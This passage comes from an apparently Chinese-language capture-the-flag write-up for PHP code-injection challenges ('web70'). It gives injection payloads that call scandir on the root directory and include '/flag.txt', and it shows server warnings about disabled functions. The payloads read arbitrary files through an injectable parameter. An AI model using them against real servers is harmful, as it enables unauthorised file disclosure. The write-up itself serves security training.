 > 
`var_export` — 输出或返回一个变量的字符串表示


> 
Payload


```
c=var_export(scandir('/'));`
c=include('/flag.txt');

```

## web70

> 
源码


```
Warning: error_reporting() has been disabled for security reasons in /var/www/html/index.php on line 14
​
Warning: ini_set() has been disabled for security reasons in /var/www/html/index.php on line 15
​
Warning: highlight_file() has been disabled for security reasons in /var/www/html/index.php on line 21
你要上天吗？

```

> 
Payload


```
c=var_export(scandir('/'));
c=include('/flag.txt');

```
